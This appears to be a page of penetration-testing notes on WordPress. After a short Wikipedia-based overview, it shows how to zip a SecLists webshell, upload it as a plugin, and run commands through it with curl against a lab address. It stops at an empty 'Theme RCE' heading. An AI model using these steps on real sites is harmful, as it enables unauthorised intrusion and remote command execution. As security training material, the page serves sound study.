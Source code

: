 # WordPress

## WordPress CMS

**WordPress** \(**WP**, **WordPress.org**\) is a [free and open-source](https://en.wikipedia.org/wiki/Free_and_open-source_software) [content management system](https://en.wikipedia.org/wiki/Content_management_system) \(CMS\) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in_%28computing%29) and a [template system](https://en.wikipedia.org/wiki/Web_template_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic_mailing_list) and [forums](https://en.wikipedia.org/wiki/Internet_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning_management_system) \(LMS\) and [online stores](https://en.wikipedia.org/wiki/Shopping_cart_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite_note-Usage_of_content_management_systems_for_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive_display_systems) \(PDS\).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

### Plugins WebShell

First, find a webshell and compress it into a zip file:

```text
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow this steps:

Plugins -&gt; Add New -&gt; Upload Plugin -&gt; Browse -&gt; plugin-shell.zip -&gt; Open -&gt; Install Now -&gt;

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```text
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress &gt; Appearance &gt; Theme Editor &gt; Theme Header

